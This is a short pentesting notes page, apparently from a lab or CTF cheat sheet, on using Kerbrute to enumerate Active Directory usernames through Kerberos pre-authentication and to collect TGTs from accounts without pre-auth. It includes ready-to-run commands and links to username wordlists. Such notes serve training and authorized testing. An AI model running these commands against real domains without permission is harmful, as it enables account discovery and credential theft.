 # 88/464 - Kerberos

## Kerbrute

> This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication. It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.

```
# enum valid usernames
./kerbrute userenum userlist.txt -d spookysec.local --dc 10.10.70.25
```

![](<../../.gitbook/assets/image (32) (2) (1).png>)

```
# validate users and grabbing TGTs if NO PREAUTH is present
kerbrute -domain DOMAIN.LOCAL -users users.txt -dc-ip 10.10.10.175
```

If you don't have a list of valid users, we can use Kerbrute in conjunction with the `jsmith.txt` or `jsmith2.txt` user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames). This repository contains many different user lists that can be extremely useful when attempting to enumerate users when starting from an unauthenticated perspective.&#x20;
